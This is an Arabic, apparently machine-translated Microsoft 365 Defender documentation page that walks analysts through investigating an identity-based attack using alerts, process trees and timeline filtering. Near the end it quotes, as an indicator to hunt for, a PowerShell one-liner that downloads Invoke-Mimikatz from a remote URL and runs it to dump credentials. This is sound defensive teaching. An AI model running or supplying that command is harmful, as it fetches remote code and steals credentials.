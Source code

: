 ```yaml
---
title: مثال على هجوم قائم على الهوية
description: تقدم في تحليل مثال للهجوم المستند إلى الهوية.
keywords: الحوادث، والتنبيهات، والتحقيق، والارتباط، والهجمات، والآلات، والأجهزة، والمستخدمين، والهويات، والهوية، وعلبة البريد، والبريد الإلكتروني، و365، وmicrosoft، وm365، والاستجابة للحوادث، والهجمات الإلكترونية
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 2e0b237ad045b98b2bb013399f344db3f20f1919
ms.sourcegitcommit: c1eaea74c8ffce2f9f477c9469342e88e4a70c14
ms.translationtype: MT
ms.contentlocale: ar-SA
ms.lasthandoff: 07/20/2022
ms.locfileid: "66893606"
---
```

# <a name="example-of-an-identity-based-attack"></a>مثال على هجوم قائم على الهوية

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**ينطبق على:**
- Microsoft 365 Defender

يمكن أن تساعد Microsoft Defender for Identity في الكشف عن المحاولات الضارة لخرق الهويات في مؤسستك. نظرا لأن Defender for Identity يتكامل مع Microsoft 365 Defender، يمكن أن يكون لدى محللي الأمان رؤية على التهديدات الواردة من Defender for Identity، مثل محاولات رفع امتياز Netlogon المشتبه بها.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>تحليل الهجوم في Microsoft Defender for Identity

يسمح Microsoft 365 Defender للمحللين بتصفية التنبيهات عن طريق مصدر الكشف في علامة التبويب **«Alerts**» في صفحة «incidents». في المثال التالي، تتم تصفية مصدر الكشف إلى **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="تصفية مصدر الكشف في Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

يؤدي تحديد التنبيه **الهجومي المشكوك به فوقpass-the-hash** إلى صفحة في Microsoft Defender for Cloud Apps تعرض معلومات أكثر تفصيلا. يمكنك دائما معرفة المزيد حول التنبيه أو الهجوم عن طريق تحديد **معرفة المزيد حول نوع التنبيه هذا** لقراءة [وصف للهجوم](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) واقتراحات المعالجة.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="تنبيه هجوم زائد مشتبه به" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>التحقيق في الهجوم نفسه في Microsoft Defender لنقطة النهاية

بدلا من ذلك، يمكن للمحلل استخدام Defender لنقطة النهاية لمعرفة المزيد حول النشاط على نقطة النهاية. حدد الحدث من قائمة انتظار الحدث، ثم حدد علامة التبويب **«Alerts** ». من هنا، يمكنهم تحديد مصدر الكشف أيضا. يشير مصدر الكشف المسمى باسم EDR إلى الكشف عن نقطة النهاية والاستجابة لها، وهو Defender لنقطة النهاية. من هنا، يختار المحلل تنبيها تم اكتشافه بواسطة EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="الكشف عن نقطة النهاية والاستجابة لها في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

تعرض صفحة التنبيه معلومات مختلفة ذات صلة مثل اسم الجهاز المتأثر واسم المستخدم وحالة التحقيق التلقائي وتفاصيل التنبيه. تصور قصة التنبيه تمثيلا مرئيا لشجرة العملية. شجرة العملية هي تمثيل هرمي للعمليات الأصل والتابعة المتعلقة بالتنبيه.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="شجرة عملية تنبيه في Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

يمكن توسيع كل عملية لعرض المزيد من التفاصيل. التفاصيل التي يمكن للمحلل رؤيتها هي الأوامر الفعلية التي تم إدخالها كجزء من برنامج نصي ضار وعناوين IP للاتصال الخارجي ومعلومات أخرى مفيدة.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="تفاصيل العملية في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
من خلال تحديد **"انظر" في المخطط الزمني**، يمكن للمحلل التعمق أكثر لتحديد الوقت المحدد للاختراق. 

يمكن Microsoft Defender لنقطة النهاية الكشف عن العديد من الملفات والبرامج النصية الضارة. ومع ذلك، نظرا إلى العديد من الاستخدامات المشروعة للاتصالات الصادرة، وPowerShell، ونشاط سطر الأوامر، فإن بعض النشاط يعتبر ضارا حتى يقوم بإنشاء ملف أو نشاط ضار. لذلك، يساعد استخدام المخطط الزمني المحللين على وضع التنبيه في سياق مع النشاط المحيط لتحديد المصدر الأصلي أو الوقت الأصلي للهجوم الذي يتم حجبه بخلاف ذلك بواسطة نظام الملفات المشترك ونشاط المستخدم. 

لاستخدام المخطط الزمني، سيبدأ المحلل في وقت الكشف عن التنبيه (باللون الأحمر) ويمرر لأسفل إلى الخلف في الوقت المناسب لتحديد وقت بدء النشاط الأصلي الذي أدى إلى النشاط الضار بالفعل. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="وقت بدء المحلل للكشف عن التنبيه" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

من المهم فهم النشاط الشائع وتمييزه مثل اتصالات Windows Update، وحركة مرور تنشيط Windows Trusted Software، والاتصالات الشائعة الأخرى لمواقع Microsoft، ونشاط الإنترنت لجهة خارجية، ونشاط نقطة النهاية من Microsoft Configuration Manager، وغيرها من الأنشطة غير الضارة من النشاط المشبوه. إحدى طرق التمييز هي استخدام عوامل تصفية المخطط الزمني. هناك العديد من عوامل التصفية التي يمكنها تمييز نشاط معين مع تصفية أي شيء لا يريد المحلل عرضه. 

في الصورة أدناه، تمت تصفية المحلل لعرض أحداث الشبكة ومعالجتها فقط. تسمح معايير التصفية هذه للمحلل برؤية اتصالات الشبكة والعمليات المحيطة بالحدث حيث أنشأت المفكرة اتصالا بعنوان IP، والذي رأيناه أيضا في شجرة العمليات. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="كيفية استخدام المفكرة لإجراء اتصال خارجي ضار" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

في هذا الحدث المحدد، تم استخدام المفكرة لإجراء اتصال صادر ضار. ومع ذلك، غالبا ما يستخدم المهاجمون iexplorer.exe لإنشاء اتصالات لتنزيل حمولة ضارة لأن عمليات iexplorer.exe عادة ما تعتبر نشاط مستعرض ويب عاديا.

عنصر آخر للبحث عنه في المخطط الزمني هو استخدام PowerShell للاتصالات الصادرة. سيبحث المحلل عن اتصالات PowerShell الناجحة مع أوامر مثل `IEX (New-Object Net.Webclient)` متبوعة باتصال صادر بموقع ويب يستضيف ملفا ضارا. 

في المثال التالي، تم استخدام PowerShell لتنزيل Mimikatz وتنفيذه من موقع ويب:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
يمكن للمحلل البحث بسرعة عن الكلمات الأساسية عن طريق كتابة الكلمة الأساسية في شريط البحث لعرض الأحداث التي تم إنشاؤها باستخدام PowerShell فقط. 

## <a name="next-step"></a>الخطوة التالية

راجع مسار التحقيق [في التصيد الاحتيالي](first-incident-path-phishing.md) .

## <a name="see-also"></a>راجع أيضًا

- [نظرة عامة على الحوادث](incidents-overview.md)
- [إدارة الأحداث](manage-incidents.md)
- [التحقيق في الأحداث](investigate-incidents.md)
